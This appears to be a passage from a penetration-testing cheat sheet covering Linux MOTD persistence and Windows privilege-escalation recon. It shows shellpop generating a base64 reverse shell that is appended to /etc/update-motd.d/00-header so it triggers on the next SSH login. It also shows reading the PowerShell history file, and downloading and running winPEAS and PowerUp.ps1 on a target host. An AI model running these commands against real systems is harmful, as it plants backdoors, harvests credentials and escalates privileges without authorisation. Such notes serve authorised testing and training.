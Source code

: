 

### motd

`/etc/update-motd.d/`:

```
root@kali:$ shellpop --reverse --number 8 -H 127.0.0.1 -P 1337 --base64
root@kali:$ echo '<BASE64_SHELL>' >> 00-header
* Fire up new SSH session and catch the reverse shell
```

* [www.securityfocus.com/bid/50192/discuss](https://www.securityfocus.com/bid/50192/discuss)

PAM MOTD:

* [www.exploit-db.com/exploits/14273](https://www.exploit-db.com/exploits/14273)
* [www.exploit-db.com/exploits/14339](https://www.exploit-db.com/exploits/14339)




## Windows


### Recon

PowerShell history:

```
PS > Get-Content C:\Users\j1v37u2k3y\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```


#### Tools

winPEAS:

```
root@kali:$ git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite ~/tools/privilege-escalation-awesome-scripts-suite
root@kali:$ cp ~/tools/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe . && python3 -m http.server 80
PS > (new-object net.webclient).downloadfile('http://127.0.0.1/winPEAS.exe', 'C:\Users\j1v37u2k3y\music\winPEAS.exe')
```

PowerUp.ps1:

* [github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf)
* [recipeforroot.com/advanced-powerup-ps1-usage/](https://recipeforroot.com/advanced-powerup-ps1-usage/)

```
$ curl -L https://github.com/PowerShellMafia/PowerSploit/raw/master/Privesc/PowerUp.ps1 > powerup.ps1
PS > Invoke-PrivescAudit
```
